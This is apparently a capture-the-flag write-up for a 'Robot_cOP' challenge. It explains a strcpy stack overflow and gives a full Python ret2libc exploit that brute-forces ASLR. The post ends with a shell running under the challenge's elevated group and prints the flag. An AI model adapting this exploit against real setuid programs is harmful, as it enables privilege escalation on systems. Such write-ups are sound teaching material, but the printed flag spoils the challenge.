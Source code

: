 ```nasm
   0x080484a1 <+30>:	leave  
   0x080484a2 <+31>:	ret    
End of assembler dump.
```

The function is very easy. First it allocate 0x808 (2056) bytes on the stack, then push the first argument which is the first program argument, then load the address of the allocated buffer, push that buffer and then copy the first program argument into the buffer. So if we give to strcpy a buffer greater than 0x808 bytes we will overflow the return adress.

Instead of using the ROP technic to solve the challenge, I choose a very fast one which I described in a [previous post](/pwn/2017/05/14/aslr_bruteforce.html), the ASLR bruteforce! As I already explained it in details in my previous post, I will only show you the final exploit:
```python
#!/usr/bin/env python
# coding: utf-8

import struct
import subprocess

base = 0xf754e000                  # base libc address's
system_offset = 0x0003e3e0         # system offset function
exit_offset = 0x000311b0           # exit offset function
binsh =  0x804825c                 # /bin/sh  addresse's contained in the binary

system_addr = base + system_offset # final system address's
exit_addr = base + exit_offset     # final exit address's

payload = "A" * 2060
payload += struct.pack("<I",system_addr)
payload += struct.pack("<I",exit_addr)
payload += struct.pack("<I",binsh)

while (1):
    result = subprocess.call(["/challenges/robot_cop/Robot_cOP", payload])
    if not result:
        print "Done"
        exit(0)
    else:
        print "KO\n"
```

And we test:
```bash
$ python /tmp/brute.py
KO

KO

KO
...

$ id
uid=1334(dagger) gid=1334(dagger) euid=1310(robot_cop-solved) egid=1305(robot_cop) groups=1305(robot_cop),1002(tocttou),1306(2befree),1307(basic_rop),1311(botoxedstring),1312(fakemalware-killswitch),1334(dagger)
$ cat flag
flag{0r5t7hvR4dfTyhj67yKLO}
```

Done.
